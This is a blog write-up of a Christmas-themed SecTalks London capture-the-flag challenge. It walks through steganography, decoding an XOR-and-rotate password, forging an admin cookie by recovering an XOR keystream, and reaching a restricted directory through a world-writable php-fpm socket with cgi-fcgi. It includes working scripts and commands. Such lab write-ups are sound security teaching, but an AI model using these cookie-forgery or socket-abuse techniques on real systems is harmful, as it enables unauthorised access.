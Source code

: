 ![Logo](/assets/images/sectalks5-0.jpg)

Last week I've been to the 5th SecTalks London meetup and I'm proud to say I've learnt something that evening and wanted to say Thank you to the creator of the night's challenge - @leigh.  I'll definitely be going again.

Below is a write-up of my solution. Hopefully by now the details of the challenge are made public so if people are still working on this I won't spoil anyone's fun by publishing this.

## Stage 0

The challenge is Christmas themed and  starts at the North Pole: 178.62.xx.xx/1.html

> While taking a well earned break at the Pole Star Tavern, you overhear a couple of the local elves talking about some of the security improvements they've made to Santa's distribution infrastructure this year.
Of particular interest to you is the digitisation of the naughty and nice lists, you know you haven't exactly been on your best behaviour this year, perhaps there is something you can do about that.
You snap out of your daydream to find them picking up the papers they've been glossing over and making for the door. One of them drops something. When nobody is looking you head over and pick it up.
It's a Christmas card with some writing on the front.
The writing looks like it's in some sort of code: 4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194
There must be some more clues on the card!

![Christmas card](/assets/images/sectalks5-1.png)

## Stage 1
The hint for this stage for "Simple stego". I've first opened the image in Gimp and noticed there was an alpha channel.  Unfortunately nothing really obvious here. Then I thought about varying colour intensity, a method used to enhance black and white images.

In Gimp it is quite easy to [vary the threshold](https://docs.gimp.org/en/gimp-tool-threshold.html): **Colours -> Threshold**. And TA DA !

![Stego revealed](/assets/images/sectalks5-2.png)

## Stage 2
We have some pseudo-code right here. Basically every character of the password was rotated left by its position and then XOR-ed with 42. So to get the initial password we need to apply the reverse operations: XOR then ROR (rotate right!):
 
```python
import binascii                                                                                                                                                                                                                          
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
(val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
 
p = "4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194"
v = binascii.unhexlify(p)
 
print [ ord(v[i]) for i in range(len(v))]
 
 
print "".join([ chr(ror(ord(v[i])^42,i,8)) for i in range(len(v))])
```

Running this script we get the credentials for the next stage, accessible at 178.62.xx.xx: **flag{user:elf2207,pass:snow\*\*\*}**

## Stage 3
Nothing interesting after logging in, just 2 list of names randomly changing:

![Lists](/assets/images/sectalks5-3.png)

But there is a cookie, whose value is:

*ccYKPh4W%2BAEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf%2BsWA%3D*

After URL-decoding it, we get a nice Base64 string:
*ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=*

Nothing obvious straight-away. But it becomes interesting if we corrupt the base64 data by removing 2 characters from the end for example. There is an error message displayed:

Corrupted session data: **_{"user":"elf2207","is_admin":fals_**

Probably we removed the last letter 'e' from the encrypted version of the cookie, that's why the error. By comparing the lengths of the decoded base64 and error message, we see they are the same. So the guess is that the session data is encrypted with a sort of one-time-pad. By now you already know what's coming next :sunglasses:

I've XOR-ed the decoded data with the plain-text message to get the key, then used the key to encrypt a new session data, containing the the value true for the **is_admin** property.

```python
import base64                                                                                                                                                                                                                            
 
pt = '{"user":"elf2207","is_admin":false}'
print "[*] Decoded len: ", len(pt)
 
c = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=")
print "[*] Decoded cookie len: ", len(c)
 
# Probably XORed with long one-time-pad. Get the key :D
k = [ord(a) ^ ord(b) for a,b in zip(pt, c)]
print "[*] XOR key: ", k
kStr = "".join([chr(n) for n in k])
 
# Encode desired cookie
pt2 = '{"user":"elf2207","is_admin":true}'
c2 = [ord(a) ^ ord(b) for a,b in zip(pt2, kStr[:len(pt2)])]
print "Admin cookie (to be url-encoded): ", base64.b64encode("".join([chr(n) for n in c2]))
 
# Test
c3 = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGE2Z87oqQ==")
pt3 = [ord(a) ^ ord(b) for a,b in zip(kStr, c3)]
print "[*] Decoded test cookie: ", "".join([chr(n) for n in pt3])
```

## Stage 4
Now we're in!

>After poking around for a while you realise that the system is fundamentally broken, and even admins cannot edit the naughty and nice lists!
Determined to exploit the system you press on, and discover that the elf has SSH access to the system, with the credentials "elf2207" and the password "snow***"'

Before exploiting  anything we need to understand some concepts. The machine is a Debian 8 system:

```bash
elf2207@grot0:~$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf2207@grot0:~$ uname -a
Linux grot0 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
elf2207@grot0:~$ 
```

[Nginx](https://en.wikipedia.org/wiki/Nginx) web server is running, and by looking in the configuration files we see that it will pass [FastCGI](https://en.wikipedia.org/wiki/FastCGI) requests through a pipe, which will be executed by php-fm.

```bash
location ~ ^/index.php$ {
        fastcgi_param  SCRIPT_FILENAME    /home/webuser/index.php;
        fastcgi_param  REQUEST_METHOD     $request_method;
        fastcgi_param  REQUEST_URI        $request_uri;
 
        fastcgi_pass unix:/var/run/php-fpm.sock;
}
```

 Going back to the login message, I remembered there was something about /home/webuser directory:
 
 ```bash
$ cat /etc/motd
 
This system is poorly configured. You figure that the data you want must be in the /home/webuser directory.
```

Unfortunately we don't have read permissions to that  folder:
```
drwxr-x---  3 webuser webuser 4096 Jan 26 20:30 webuser
```

But someone else has - php-fm. To understand a bit more what's happening, Nginx is sending requests to the socket file defined in sites-available configuration file and php-fpm is picking them up and executing them:

**_Browser -> nginx -> (FastCGI) -> PHP-FPM _**

The configuration file for php-fm is readable at /usr/local/etc/php-fpm.d/www.conf. Remember the Message of the Day mentioned a _poorly configured_ system. The culprit is actually in the **insecure permissions for the socket used by nginx** to send commands to php-fm:

```
listen = /var/run/php-fpm.sock
listen.mode = 0666
```

This makes the socket world writeable! In fact it  should be readable/writeable only by the nginx user. So we can actually send commands to php-fm ourselves, that is if we first find out how to communicate with it.

```
REQUEST_METHOD=GET SCRIPT_FILENAME= /home/elf2207/hello.php cgi-fcgi -bind -connect /var/run/php-fpm.sock
 
X-Powered-By: PHP/7.2.0-dev
Content-type: text/html; charset=UTF-8
 
Well that was easy wasn't it :)
 
Have a cookie!
```

There are a few minor obstacles here, like not being able to compile stuff on the box (missing GCC) or install apps (no sudo, obviously:) but I'll let you figure out how to overcome them. It shouldn't be too difficult.

## References

**PHP-FM Architecture**

[PHP-FM](https://serversforhackers.com/video/php-fpm-configuration-the-listen-directive)

**Talking to FastCGI Server**

[Directly connecting to PHP-FPM](https://www.thatsgeeky.com/2012/02/directly-connecting-to-php-fpm/)

[Communicate with PHP FastCGI from ruby](http://stackoverflow.com/questions/16561826/communication-with-php-fastcgi-socket-from-ruby)
